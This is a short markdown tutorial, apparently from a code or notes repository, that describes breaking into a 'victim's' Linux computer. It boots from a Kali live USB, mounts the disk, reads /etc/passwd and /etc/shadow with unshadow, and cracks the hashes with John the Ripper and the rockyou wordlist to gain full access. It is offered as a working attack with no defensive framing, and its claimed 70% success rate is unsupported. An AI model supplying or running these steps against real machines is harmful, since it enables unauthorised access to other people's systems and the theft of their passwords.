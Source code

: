 # Your computer is not safe
description: How to hack the password of 70% linux machines

## Overview
- boot into the system using live usb
- create a hash of etc password and etc shadow
- crack it using tools like john the ripper

## Steps
1. Create a live USB of Kali Linux
2. Boot into this usb from the victim's computer
3. mount the root partition under /mnt

```bash
lsblk
mount /dev/sda2 /mnt 
```
4. Navigate to etc and create hash out of shadow and password file using the unshadow util. Save this in the home directory 
In linux, the passwords of all users are stored as a hash in a /etc/shadow file. The corresponding names can be taken from /etc/password file
```bash
sudo unshadow /etc/passwd /etc/shadow > ~/shadowhash
```
5. Crack this using tools like johntheripper. Pass in a wordlist if the password is complex
```bash
john --format=crypt shadowhash
# or
john shadowhash --wordlist=/usr/share/wordlists/rockyou.txt
```

This should give you the password in plain text format for the victim's OS in 70% + cases.

Reboot with the victim's OS and Login with this password to gain full access to the victim's OS.


Note: This article focuses only on Linux machines. However, keep in mind that similar thing can be used for Windows systems as well.

The End
